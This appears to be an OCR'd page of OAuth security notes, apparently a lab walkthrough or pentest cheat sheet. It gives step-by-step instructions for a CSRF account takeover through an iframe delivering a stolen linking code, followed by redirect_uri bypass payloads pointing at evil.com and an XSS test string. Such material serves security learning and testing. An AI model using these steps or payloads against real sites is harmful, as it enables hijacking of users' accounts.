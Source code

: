     ```jsx
    1. Notice that you have the option to attach your social media profile to your existing account.
    3. notice that when you try to attach your social media account the target redirect you to social media website then go back to the target again
    4. log out from the account and try to login with your social media linked account notice that it redirects you directly to target without any credentials needed
    5. In the "GET /auth?client_id[...]" request, observe that the "redirect_uri" for this functionality sends the authorization code to the endpoint like "/oauth-linking" without "state" parameter
    6. Turn on proxy interception and select the "Attach a social profile"  copy URL from the "GET /oauth-linking?code=[...]" request
    8. Drop the request. This is important to ensure that the code is not used and, therefore, **remains valid**.
    10. in your exploit server : <iframe src="<https://YOUR-TARGET.net/oauth-linking?code=STOLEN-CODE>"></iframe>
    11. Deliver the exploit to the victim. When their browser loads the iframe, it will complete the OAuth flow using your social media profile, attaching it to victim account on the blog website.
    12. Go back to the blog website and select the "Log in with social media" option again. Observe that you are instantly logged in as the victim user
    ```

#### **Insufficient Redirect URI Validation**

The `redirect_uri` is very important because **sensitive data, such as the** `**code**` **is appended to this URL** after authorization. If the `redirect_uri` can be redirected to an **attacker controlled server**, this means the attacker can potentially **takeover a victim’s account** by using the `code` themselves, and gaining access to the victim’s data.

The way this is going to be exploited is going to vary by authorization server. **Some** will **only accept** the exact same `**redirect_uri**` **path as specified in the client application**, but some will **accept anything** in the same domain or subdirectory of the `redirect_uri` .

* Open redirects: [`https://yourtweetreader.com`](https://yourtweetreader.com)`/callback?redirectUrl=https://evil.com`
* Path traversal: `https://yourtweetreader.com/callback/../redirect?url=https://evil.com`
* Weak `redirect_uri` regexes: `https://yourtweetreader.com.evil.com`
* HTML Injection and stealing tokens via referer header: `https://yourtweetreader.com/callback/home/attackerimg.jpg`
* XSS in redirect implementation As mentioned in this bug bounty report [https://blog.dixitaditya.com/2021/11/19/account-takeover-chain.html](https://blog.dixitaditya.com/2021/11/19/account-takeover-chain.html) it might be possible that the redirect **URL is being reflected in the response** of the server after the user authenticates, being **vulnerable to XSS**. Possible payload to test: `https://app.victim.com/login?redirectUrl=https://app.victim.com/dashboard</script><h1>test</h1>`

**Other parameters** that can be vulnerable to Open Redirects are: - **client\_uri** - URL of the home page of the client application - **policy\_uri** - URL that the Relying Party client application provides so that the end user can read about how their profile data will be used. - **tos\_uri** - URL that the Relying Party client provides so that the end user can read about the Relying Party's terms of service. - **initiate\_login\_uri** - URI using the https scheme that a third party can use to initiate a login by the RP. Also should be used for client-side redirection

> If you target an OpenID server, the discovery endpoint at \*\*`.well-known/openid-configuration`\*\*sometimes contains parameters such as "_registration\_endpoint_", "_request\_uri\_parameter\_supported_", and "_require\_request\_uri\_registration_". These can help you to find the registration endpoint and other server configuration values.
